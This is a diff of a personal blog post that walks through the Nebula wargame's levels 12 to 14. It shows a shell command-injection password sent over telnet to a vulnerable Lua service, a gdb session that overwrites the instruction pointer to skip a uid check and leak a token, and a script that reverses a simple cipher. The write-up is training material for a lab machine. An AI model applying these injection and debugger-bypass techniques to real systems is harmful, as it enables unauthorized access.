

Before and after one commit to ZijunH/zijunh.github.io, a Jekyll site: the page built from _posts/2019-06-25-nebulla-part-2.md, in a window 1280 px wide and 1400 px high, scrolled down 4143 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Content update

````diff
--- a/_posts/2019-06-25-nebulla-part-2.md
+++ b/_posts/2019-06-25-nebulla-part-2.md
@@ -91,7 +91,7 @@ To generate a key for "level11", I used `ssh-keygen -t rsa` with default values.
 
 To predict the temporary filename, I use the fact that 2 executables that run consecutively have a pid difference of 1 and the first executable will execute in less than 1 second given the program is simple and the machine is fast. Using the above 2 facts, I created the following C file that pre-creates a file and symlinks it to "/home/flag11/.ssh/authorized_keys". Note that running this file will cause the executable to end pre-maturely as the required input length was not reached, but at this point the file contents have already been written so it does not matter. Replace `buffer` with whatever is in the "id_rsa.pub" file. In this case, encryption/processing is not needed as that is required for `system` only.
 
-```C
+```c
 #include <stdlib.h>
 #include <unistd.h>
 #include <string.h>
@@ -127,3 +127,107 @@ int main(int argc, char **argv)
 ```
 
 Using this method, I simply SSHed into flag11's account by `ssh flag11@127.0.0.1`, concluding this level.
+
+
+## Level12
+
+This is a simple problem. The lua script did not sanitise the input received, thus allowing arbitrary code execution during the step `io.popen("echo "..password.." | sha1sum", "r")`. To connect to the listening process, we can use `telnet hostname port`, which would be `telnet 127.0.0.1 50001` in this case. This allows a connection to the listening process. Then, we can design our input to suit the bash code above; I picked "a;getflag > /tmp/a.txt; echo a", which redirects the output of `getflag` to the file "/tmp/a.txt", allowing us to check the results of the code execution. This successfully obtains the flag, and the full process is described below:
+
+```bash
+level12@nebula:~$ telnet 127.0.0.1 50001
+Trying 127.0.0.1...
+Connected to 127.0.0.1.
+Escape character is '^]'.
+Password: a; getflag > /tmp/a.txt; echo a
+Better luck next time
+Connection closed by foreign host.
+level12@nebula:~$ cat /tmp/a.txt
+You have successfully executed getflag on a target account
+```
+
+## Level13
+
+The program is quite simple and rigid and there appears to be no problem with the binary itself. However, as we have control of the program environment as well, it is easy to manipulate the state of the binary. This can be done using a debugger, specifically gdb.
+
+Using gdb, we are able to bypass the `if` statement and thus prevent the early exit of the program. I broke the program `main`, and printed the disassembled code. Using that, I determined the location of the `if` statement, and overwrote "eip" (instruction pointer) with the address the statement jumps to when `getuid()` is equal to 1000. This process is described below:
+
+```
+level13@nebula:~$ gdb /home/flag13/flag13
+GNU gdb (Ubuntu/Linaro 7.3-0ubuntu2) 7.3-2011.08
+Copyright (C) 2011 Free Software Foundation, Inc.
+License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
+This is free software: you are free to change and redistribute it.
+There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
+and "show warranty" for details.
+This GDB was configured as "i686-linux-gnu".
+For bug reporting instructions, please see:
+<http://bugs.launchpad.net/gdb-linaro/>...
+Reading symbols from /home/flag13/flag13...(no debugging symbols found)...done.
+(gdb) break main
+Breakpoint 1 at 0x80484c9
+(gdb) r
+Starting program: /home/flag13/flag13
+
+Breakpoint 1, 0x080484c9 in main ()
+(gdb) x/29 main
+   0x80484c4 <main>:    push   %ebp
+   0x80484c5 <main+1>:  mov    %esp,%ebp
+   0x80484c7 <main+3>:  push   %edi
+   0x80484c8 <main+4>:  push   %ebx
+=> 0x80484c9 <main+5>:  and    $0xfffffff0,%esp
+   0x80484cc <main+8>:  sub    $0x130,%esp
+   0x80484d2 <main+14>: mov    0xc(%ebp),%eax
+   0x80484d5 <main+17>: mov    %eax,0x1c(%esp)
+   0x80484d9 <main+21>: mov    0x10(%ebp),%eax
+   0x80484dc <main+24>: mov    %eax,0x18(%esp)
+   0x80484e0 <main+28>: mov    %gs:0x14,%eax
+   0x80484e6 <main+34>: mov    %eax,0x12c(%esp)
+   0x80484ed <main+41>: xor    %eax,%eax
+   0x80484ef <main+43>: call   0x80483c0 <getuid@plt>
+   0x80484f4 <main+48>: cmp    $0x3e8,%eax
+   0x80484f9 <main+53>: je     0x8048531 <main+109>
+   0x80484fb <main+55>: call   0x80483c0 <getuid@plt>
+   0x8048500 <main+60>: mov    $0x80486d0,%edx
+   0x8048505 <main+65>: movl   $0x3e8,0x8(%esp)
+   0x804850d <main+73>: mov    %eax,0x4(%esp)
+   0x8048511 <main+77>: mov    %edx,(%esp)
+   0x8048514 <main+80>: call   0x80483a0 <printf@plt>
+   0x8048519 <main+85>: movl   $0x804870c,(%esp)
+   0x8048520 <main+92>: call   0x80483d0 <puts@plt>
+   0x8048525 <main+97>: movl   $0x1,(%esp)
+   0x804852c <main+104>:        call   0x80483f0 <exit@plt>
+   0x8048531 <main+109>:        lea    0x2c(%esp),%eax
+   0x8048535 <main+113>:        mov    %eax,%ebx
+   0x8048537 <main+115>:        mov    $0x0,%eax
+(gdb) break *0x80484f9
+Breakpoint 2 at 0x80484f9
+(gdb) c
+Continuing.
+
+Breakpoint 2, 0x080484f9 in main ()
+(gdb) set $eip = 0x8048531
+(gdb) c
+Continuing.
+your token is b705702b-76a8-42b0-8844-3adabbe5ac58
+[Inferior 1 (process 1637) exited with code 063]
+```
+
+Using the token, I am able to log into "flag13" and execute `getflag`.
+
+## Level14
+
+This level is rather trivial. The file "token" contains the string "857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.", which should be the result after applying the encryption from the executable. Playing around with the executable, you may notice the first character is always the same in both encrypted and unencrypted text. Furthermore, the second character always differs by 1. From this, I hypothesised that the executable increments the character by its position in the string. This is verified (to an extent) by the following:
+
+```bash
+level14@nebula:/home/flag14$ ./flag14 -e
+aaaaaaaaaa
+abcdefghij
+```
+
+From this point, we can create a python script that reverses the encryption. Running the following script results in "8457c118-887c-4e40-a5a6-33a25353165", which is the password for "flag14". We can then execute `getflag` successfully.
+
+```py
+s = "857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW."
+for i in range(len(s)):
+    print(chr(ord(s[i]) - i), end="")
+```
````
Also changed, not shown: other parts of _posts/2019-06-25-nebulla-part-2.md (+1 -1 lines).
